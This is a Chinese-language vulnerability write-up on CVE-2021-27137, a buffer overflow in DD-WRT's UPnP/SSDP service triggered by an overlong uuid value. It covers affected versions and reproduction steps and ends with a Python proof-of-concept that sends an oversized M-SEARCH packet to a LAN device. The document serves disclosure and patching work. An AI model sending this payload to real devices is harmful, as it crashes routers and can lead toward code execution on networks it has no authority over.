 # DD-WRT UPNP缓冲区溢出漏洞 CVE-2021-27137

## 漏洞描述
默认情况下，DD-WRT中的UPNP处于禁用状态，并且仅在内部网络接口上侦听。

UPNP本质上是未经身份验证的UDP形式的协议–由于无法对协议强制执行身份验证，因此它既易于使用又具有不安全性。

如果DD-WRT启用了UPNP服务，则坐在存在DD-WRT设备的LAN上的远程攻击者可以通过发送一个过长的uuid值来触发缓冲区溢出。

根据部署DD-WRT的平台的不同，可能存在缓解措施，也可能没有缓解措施，例如ASLR等，这使得可利用性取决于安装DD-WRT的平台。

## 漏洞影响

`DD-WRT < 45723 版本`

## 漏洞复现

通过查看源代码，ssdp.c可以很容易地发现有问题的代码：

![](resource/DD-WRT-UPNP缓冲区溢出漏洞CVE-2021-27137/media/1.png)

用户提供的数据的未绑定副本被复制到缓冲区中，该缓冲区的大小限制为128个字节。

由于默认情况下未启用UPNP服务，因此重新创建漏洞的第一步是启用将自动启动该服务的服务

![](resource/DD-WRT-UPNP缓冲区溢出漏洞CVE-2021-27137/media/2.png)

启动PoC脚本将触发upnp服务崩溃，这可以在启动以下python脚本几秒钟后看到

![](resource/DD-WRT-UPNP缓冲区溢出漏洞CVE-2021-27137/media/3.png)

漏洞利用POC

```python
import socket
target_ip = "192.168.15.124" # IP Address of Target
off = "D"*164
ret_addr = "AAAA" 
payload = off + ret_addr
packet = \
    'M-SEARCH * HTTP/1.1\r\n' \
    'HOST:239.255.255.250:1900\r\n' \
    'ST:uuid:'+payload+'\r\n' \
    'MX:2\r\n' \
    'MAN:"ssdp:discover"\r\n' \
    '\r\n'
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM, socket.IPPROTO_UDP)
s.sendto(packet.encode(), (target_ip, 1900) )
```
